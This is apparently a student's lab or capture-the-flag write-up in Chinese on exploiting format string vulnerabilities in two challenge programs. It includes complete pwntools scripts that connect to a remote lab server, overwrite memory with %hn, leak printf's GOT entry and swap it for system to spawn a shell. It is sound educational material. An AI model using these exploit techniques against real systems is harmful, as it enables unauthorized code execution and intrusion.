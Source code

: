 # 格式化字符串漏洞

## Fsb1

​	首先，根据GDB的调试，buffer字符串存储在栈上offset为8的位置；同时，在程序中输出了x变量的实际地址位置。根据这两个条件，利用%hn修改x变量的值，使得程序调用vuln_code()函数，进而执行"/bin/sh"，完成攻击。

​	在攻击过程中，构造payload=b"AAB%9$hn"+p64(address_x)，其中AAB用于对齐指令，使得x的地址位于buffer的第二个位置，即栈上offset为9的位置。然后在printf(buffer)时，程序调用%hn命令，修改x的值，完成攻击。

![gdb1](fsb1/gdb1.jpg) 

```python
from pwn import *
p=remote('8.154.20.109',10300)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
p.recvuntil(b"x is: ")
address_x=p.recvline().decode().strip()
print(hex(int(address_x, 16)))

target=p64(int(address_x,16))
payload=b""
payload+=b"AAB%9$hn"
payload+=target
p.sendline(payload)

p.interactive()
```

![flag1](fsb1/flag1.jpg)  

## Fsb2

​	程序中printf()函数多次被执行，可以通过劫持printf的地址，根据偏移量利用格式化字符串漏洞将printf地址的值修改为system函数，然后传输“/bin/sh”字符串，完成攻击。

​	首先，根据GDB的调试可知，buffer存储在栈上offset=6的位置，通过计算可知buffer的最后一个元素存储在offset=37的位置。在攻击过程中，先通过ELF获取printf的got表地址。在第一轮循环中，构造payload=b"%37$s"+b"A"*(256-len(payload)-8)+p64(printf_got)，利用%s泄露出printf在系统中的实际地址。在第二轮循环中，利用fmtstr_payload构造payload将第一轮循环中获取的地址加上system()与printf()的偏移量，即将内存中的printf()修改为system，最后传输“/bin/sh”完成攻击。

![gdb2](fsb1/gdb2.jpg) 

```python
from pwn import *
from LibcSearcher import *
from fmtstr import *
context.log_level = 'DEBUG'
context.arch = 'amd64'
# p=process('./fsb2')
p=remote('8.154.20.109',10301)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
elf=ELF('./fsb2')
printf_got=elf.got['printf']
# print(hex(printf_got))
payload=b"%37$s"
payload+=b"A"*(256-len(payload)-8)
payload+=p64(printf_got)
# info(f"payload = {payload}")
p.sendline(payload)
p.recvuntil("Here comes your challenge:\n")
recv = p.recv()
# info(f"recv={recv}")
printf_addr=u64(recv[:6]+b"\x00\x00")
# info(f"printf_addr={hex(printf_addr)}")
libc = LibcSearcher("printf", printf_addr)
printf_offset = libc.dump('printf')
system_offset = libc.dump('system')
system_addr = printf_addr - printf_offset + system_offset
# print(hex(system_addr))
offset=6
payload = fmtstr_payload(offset, {printf_got: system_addr},write_size='short')
print(payload)
p.send(payload)
p.recv()
p.send(b"/bin/sh\0")
p.interactive()
```

![flag2](fsb1/flag2.jpg) 
